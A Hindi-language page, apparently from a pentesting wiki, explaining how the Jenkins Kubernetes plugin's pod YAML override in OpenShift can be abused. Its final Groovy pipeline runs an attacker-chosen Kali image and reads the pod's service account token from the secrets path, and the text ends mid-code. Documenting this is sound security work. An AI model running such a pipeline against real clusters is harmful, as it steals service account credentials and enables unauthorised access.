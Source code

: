 # ओपनशिफ्ट में जेंकिंस - बिल्ड पॉड ओवरराइड

**इस पृष्ठ के मूल लेखक हैं** [**फारेस**](https://www.linkedin.com/in/fares-siala/)

## जेंकिंस के लिए कुबरनेटीज प्लगइन
यह प्लगइन ओपनशिफ्ट/कुबरनेटीज क्लस्टर के भीतर जेंकिंस कोर कार्यों के लिए ज़्यादातर जिम्मेदार है। आधिकारिक दस्तावेज़ीकरण [यहाँ](https://plugins.jenkins.io/kubernetes/)
इसमें कुछ कार्यक्षमताएँ शामिल हैं जैसे डेवलपर्स को जेंकिंस बिल्ड पॉड की कुछ डिफ़ॉल्ट विन्यासों को ओवरराइड करने की क्षमता।

## कोर कार्यक्षमता

यह प्लगइन डेवलपर्स को उचित वातावरण में अपने कोड को बिल्ड करते समय लचीलापन प्रदान करता है।
```groovy
podTemplate(yaml: '''
apiVersion: v1
kind: Pod
spec:
containers:
- name: maven
image: maven:3.8.1-jdk-8
command:
- sleep
args:
- 99d
''') {
node(POD_LABEL) {
stage('Get a Maven project') {
git 'https://github.com/jenkinsci/kubernetes-plugin.git'
container('maven') {
stage('Build a Maven project') {
sh 'mvn -B -ntp clean install'
}
}
}
}
}
```
## कुछ दुरुपयोग पॉड yaml ओवरराइड का लाभ उठाना

हालांकि, इसका दुरुपयोग किया जा सकता है ताकि किसी भी एक्सेस के लिए उपलब्ध छवि जैसे कि Kali Linux का उपयोग किया जा सके और उस छवि से पूर्व-स्थापित उपकरणों का उपयोग करके विचित्र कमांड चलाया जा सकता है।
नीचे दिए गए उदाहरण में, हम चल रहे पॉड के सेवा खाता टोकन को बाहर ले सकते हैं।
```groovy
podTemplate(yaml: '''
apiVersion: v1
kind: Pod
spec:
containers:
- name: kali
image: myregistry/mykali_image:1.0
command:
- sleep
args:
- 1d
''') {
node(POD_LABEL) {
stage('Evil build') {
container('kali') {
stage('Extract openshift token') {
sh 'cat /run/secrets/kubernetes.io/serviceaccount/token'
```